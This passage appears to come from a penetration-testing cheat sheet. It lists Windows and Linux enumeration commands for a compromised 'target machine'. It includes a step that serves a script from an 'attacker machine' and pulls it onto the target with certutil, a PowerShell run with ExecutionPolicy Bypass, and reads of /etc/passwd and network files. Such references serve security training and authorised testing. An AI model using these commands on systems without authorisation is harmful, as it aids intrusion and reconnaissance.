 ```bash
netsh advfirewall    #to get help
netsh advfirewall show allprofiles
netsh advfirewall firewall show state

# PROCESSES & SERVICES
net start    #to list out the services
wmic service list brief
tasklist /SVC   #to list out the processes
schtasks /query /fo LIST /v  #scheduled task 
```

**AUTOMATED TOOL FOR WIN ENUM.**

GitHub Repo: ‣

TRANSFER AUTOMATED SCRIPT TO THE TARGET USING THE BELOW COMMANDS:

```bash
# ATTACKER MACHINE
python2 -m SimpleHTTPServer
python3 -m http.server

# TARGET MACHINE
certutil -urlcache -f http://<ip>/<pathToFile> <fileOutput>
```

```powershell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OuptutFilename jaws-enum.txt
```

<h2 id='LL'>Linux Shell Commands</h2>

```bash
# SYSTEM INFORMATION
hostname
cat /etc/issue
cat /etc/*release
uname -a
uname -r
env
lscpu
free -h   #ram
df -h    #filesystem
df -ht ext4
lsblk | grep sd
dpkg -l

# USERS & GROUPS
groups <user>
groups   #to list out the groups
cat /etc/passwd
w
who
last
lastlog

# NETWORK INFORMATION
ifconfig
ip a s
cat /etc/network
cat /etc/hosts
cat /etc/hostname
cat /etc/resolv.conf
arp -a

# PROCESSES & CRONJOBS
ps
```